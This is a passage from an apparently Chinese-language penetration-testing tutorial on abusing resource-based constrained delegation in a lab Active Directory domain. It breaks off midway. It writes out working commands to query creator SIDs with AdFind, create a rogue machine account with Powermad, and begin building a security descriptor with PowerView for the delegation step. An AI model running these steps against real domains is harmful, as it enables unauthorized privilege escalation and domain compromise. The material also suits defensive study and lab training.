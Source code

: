 假如现在已经拿到了把DESKTOP-P34E60A这台机器加入域的用户win10的权限

使用whoami /all查询当前用户的sid

![]()

 **同样可以通过用户的sid查看哪些域机器是通过自己加入到域内的：**

AdFind.exe -b "DC=hiro,DC=com" -f "(&(samAccountType=805306369)(mS-DS-
CreatorSID=S-1-5-21-3105699010-1460039537-418241315-1118))" cn sAMAccountType
objectCategory

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091125.png)

 **如果一个机器账号没有mS-DS-CreatorSID，那么他是被域管拉入到域内的**

利用powermad添加机器账户：(https://github.com/Kevin-Robertson/Powermad)

Import-Module .\Powermad.ps1

 **以win10用户创建一个域机器名为win10system，密码为win10**

New-MachineAccount -MachineAccount win10system -Password $(ConvertTo-
SecureString "win10" -AsPlainText -Force)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091126.png)

 **验证是否创建成功：**

net group "domain computers" /do

![]()

 **查询添加机器的SID：**

 **1.域控上查询：**

dsquery computer | dsget computer -dn -sid

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091127.png)

或者powershell运行Get-ADComputer win10system

![]()

2. **域机器上查询：** （使用empire下的powerview）

Import-Module .\powerview.ps1

Get-DomainComputer -Identity win10system

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091128.png)

然后 **设置win10system到DESKTOP-P34E60A的基于资源的约束委派** （使用empire下的powerview）

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3105699010-1460039537-418241315-1151)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`

